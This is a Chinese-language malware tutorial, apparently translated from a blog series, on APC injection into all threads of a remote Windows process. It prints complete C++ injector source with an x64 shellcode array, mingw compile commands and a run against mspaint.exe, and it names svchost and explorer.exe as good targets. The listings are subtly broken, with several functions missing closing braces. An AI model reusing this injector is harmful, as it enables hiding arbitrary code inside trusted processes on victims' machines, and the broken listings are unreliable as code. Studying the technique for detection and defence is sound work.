\newpage
\subsection{通过可警报线程进行 APC 注入：简单的 C++ 恶意软件}

﷽

{width="80%"}

今天我将讨论最简单的 APC 注入技术。我要讲的是向远程线程进行 APC 注入。用最简单的方式来说，就是把 APC 注入到目标进程的所有线程中——因为并没有函数能判断某个线程是否 alertable，所以我们可以假设其中一个线程是 alertable 的，并运行我们的 APC 任务。

### 示例

这项技术的流程很简单：

找到目标进程 ID

在目标进程中为我们的载荷分配空间

把载荷写入已分配的空间

找到目标进程的线程

向所有线程排队一个 APC 来执行我们的载荷

第一步，我们需要找到目标进程的进程 ID。为此我用了之前关于查找进程那一节里的函数：

{width="80%"}

这个函数的完整源代码：

```cpp
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
  // if we find the process: return process ID
  if (strcmp(procname, pe.szExeFile) == 0) {
  pid = pe.th32ProcessID;
  break;
  }
  hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;

```

然后，在目标进程中为我们的载荷分配空间：

{width="80%"}

如你所见，我们应该用 `PAGE_EXECUTE_READWRITE` 权限来分配这块位置，它的含义是可执行、可读、可写。

下一步，我们把载荷写入已分配的内存：

{width="80%"}

然后找到目标进程的线程。为此我写了另一个函数 `getTids`：

{width="80%"}

它按进程 PID 找出所有线程。我们枚举所有线程，如果该线程属于我们的目标进程，就把它推入我们的 `tids` 向量。

然后向所有线程排队一个 APC 来执行我们的载荷：

{width="80%"}

如你所见，我们用 `QueueUserAPC` 函数向线程排队一个 APC。第一个形参应该是我们要执行的函数的指针，也就是指向我们载荷的指针；第二个形参是远程线程的句柄。

我们来看看我们恶意软件完整的 C++ 源代码：

```cpp
/*
hack.cpp
APC injection via Queue an APC into all the threads
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/11/22/malware-injection-5.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>
#include <vector>

unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

unsigned int my_payload_len = sizeof(my_payload);

// get process PID
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
  // if we find the process: return process ID
  if (strcmp(procname, pe.szExeFile) == 0) {
  pid = pe.th32ProcessID;
  break;
  }
  hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;

// find process threads by PID
DWORD getTids(DWORD pid, std::vector<DWORD>& tids) {
  HANDLE hSnapshot;
  THREADENTRY32 te;
  te.dwSize = sizeof(THREADENTRY32);

  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, NULL);
  if (Thread32First(hSnapshot, &te)) {
	do {
	  if (pid == te.th32OwnerProcessID) {
	  tids.push_back(te.th32ThreadID);
	  }
	} while (Thread32Next(hSnapshot, &te));
  }

  CloseHandle(hSnapshot);
  return !tids.empty();

int main(int argc, char* argv[]) {
  DWORD pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE ht; // thread handle
  LPVOID rb; // remote buffer
  std::vector<DWORD> tids; // thread IDs

  pid = findMyProc(argv[1]);
  if (pid == 0) {
  printf("PID not found :( exiting...\n");
  return -1;
  } else {
  printf("PID = %d\n", pid);

  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)pid);

  if (ph == NULL) {
  printf("OpenProcess failed! exiting...\n");
  return -2;
  }

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, 
  my_payload_len, 
  MEM_RESERVE | MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);

  // write payload to memory buffer
  WriteProcessMemory(ph, rb, 
  my_payload, 
  my_payload_len, NULL);

  if (getTids(pid, tids)) {
  for (DWORD tid : tids) {
  HANDLE ht = OpenThread(THREAD_SET_CONTEXT, FALSE, tid);
  if (ht) {
  QueueUserAPC((PAPCFUNC)rb, ht, NULL);
  printf("payload injected via QueueUserAPC\n");
  CloseHandle(ht);
  }
  }
  }
  CloseHandle(ph);
  }
  return 0;

```

和往常一样，为了简单起见，我们用 64 位的 `calc.exe` 作为载荷，并打印消息用于演示。

我们来编译我们的代码：

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
 -fdata-sections -Wno-write-strings -fno-exceptions \
 -fmerge-all-constants -static-libstdc++ -static-libgcc \
 -fpermissive
```

{width="80%"}

然后先在受害机器上运行 `mspaint.exe`（我这里是 Windows 7 x64）：

{width="80%"}

然后运行我们的恶意软件：

```cmd
.\hack.exe mspaint.exe
```

{width="80%"}

如你所见，一切运行完美。

在 Windows 10 x64 上也完美工作：

{width="80%"}

{width="80%"}

但我注意到，在我的 Windows 7 x64 机器上目标进程崩溃了：

{width="80%"}

我还没搞清楚为什么会这样。

这项技术的问题在于它某种程度上是不可预测的，而且在很多情况下，它会把我们的载荷执行多次。至于目标进程，我认为 `svchost` 或 `explorer.exe` 是不错的选择，因为它们几乎总是有 alertable 线程。

### 参考资料
